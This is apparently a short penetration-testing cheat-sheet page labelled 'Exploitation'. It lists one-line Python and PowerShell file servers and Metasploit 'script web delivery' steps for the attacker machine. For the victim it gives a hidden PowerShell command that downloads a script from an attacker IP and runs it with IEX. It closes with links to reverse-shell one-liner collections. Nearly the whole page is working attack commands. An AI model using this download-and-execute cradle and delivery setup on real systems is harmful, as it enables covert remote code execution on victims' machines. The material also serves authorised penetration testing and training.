 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 97
---
```


> **One-Line HTTP Servers**

Create Server | python -m SimpleHTTPServer 8000

> **Powershell HTTP Servers**
{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Script Web Delivery** 
On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}
    

> **Script Web Delivery** 
Create Server | python -m SimpleHTTPServer 8000


https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

